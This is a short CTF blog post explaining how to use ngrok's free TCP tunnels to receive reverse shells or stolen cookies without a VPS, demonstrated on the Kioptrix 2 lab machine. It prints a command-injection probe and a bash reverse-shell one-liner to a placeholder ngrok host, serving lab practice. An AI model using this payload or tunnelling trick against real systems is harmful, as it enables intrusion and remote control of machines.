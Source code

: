 ```yaml
---
weight: 4
title: "Doing CTF without paying VPS"
date: 2019-01-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: "Using Ngrok in order to make a reverse shell or expose resources on Internet."
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["reverse shell", "tricks", "ngrok", "nomoney"]
categories: ["Shorts"]

lightgallery: true
---
```


## The goal

I think many of us do CTFs, but also many of us don't have any money, because we're student or addict to drugs. So when you don't have any money, you get creative.


![](https://media.giphy.com/media/Km2YiI2mzRKgw/giphy.gif)


For webguys who are looking for a reverse shell or who want admin cookies on a remote host (hello root-me), but don't want to pay for a VPS, there is a free solution. Ngrok.

## How it works?

Rather than making a super long and incomprehensible paragraph, here is a small diagram coming directly from the ngrok site:


![](https://ngrok.com/static/img/demo.png)


So for our needs we will make a tcp tunnel between our port listening with netcat and ngrok. To listen on the internet and wait for remote data:


![](/lib/images/shorts/vpswithoutpay/douille.png)


Now, let's move on to practice.

## Ngrok installation

All those step are explained on the ngrok website. But first, you need to create an account, it will have a unique identifier. You can put garbage:

* Username: bitedepoulet
* Email address: bite@poulet.com
* Password: ***********

And then download the right archive, for me it's `Linux`: https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip

Unzip the archive, past the ngrok line with your private authtoken and we can start.

```
▶ unzip ngrok-stable-linux-amd64.zip 
Archive:  ngrok-stable-linux-amd64.zip
  inflating: ngrok                   

▶ ./ngrok authtoken ENTERYOUROWN
Authtoken saved to configuration file: /home/maki/.ngrok2/ngrok.yml

▶ ./ngrok help                                                 
NAME:
   ngrok - tunnel local ports to public URLs and inspect traffic

DESCRIPTION:
    ngrok exposes local networked services behinds NATs and firewalls to the
[...]
```

It's successfully installed.

## Practical example

Ok, so I start a boot2root machine on `root-me.org`: kioptrix 2 (download link + WU in resource section).

Here is the RCE:


![](/lib/images/shorts/vpswithoutpay/kioptrix_rce.gif)


Now, let's check which command are available for a reverse shell:

> ; which nc python python2 python3 perl ruby php bash


![](/lib/images/shorts/vpswithoutpay/kioptrix_available.png)


You can find lot of amazing payload on: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We will use `bash` command with the following payload:

> bash -i >& /dev/tcp/NGROK_IP/NGROK_PORT 0>&1

* NGROK_IP: Is the ngrok remote host with a domain like "0.tcp.ngrok.io".
* NGROK_PORT: The forwarding port associate to the ngrok remote host.


![](/lib/images/shorts/vpswithoutpay/ngrok_rtcp.gif)


I used `netcat` for my port listening, but you can use `python3 -m http.server 31337` to catch GET data with a real web server for example.

## Conclusion

This little trick allowed me to solve a lot of challenges without having a VPS. I hope you enjoyed this little blogpost :)

Feel free to ask me what you want on twitter @maki_chaz. 

Happy hacking guys :D

## Resources

1. Root-me, __Une plateforme rapide, accessible et réaliste pour tester vos compétences en hacking.__, _Root-me official website_: https://www.root-me.org/
2. Ngrok team, __What is ngrok?__, _Official ngrok blog_: https://ngrok.com/product
3. Vulnhub, __Kioptrix: Level 1.1 (#2)__, _Vulnhub team_: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
4. Abatchy, __Kioptrix 2 Walktrhough (Vulnhub)__, _abatchy's blog_: https://www.abatchy.com/2016/12/kioptrix-2-walkthrough-vulnhub.html
5. pentestmonkey, __Reverse Shell Cheat Sheet__, _pentestmonkey blog_: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
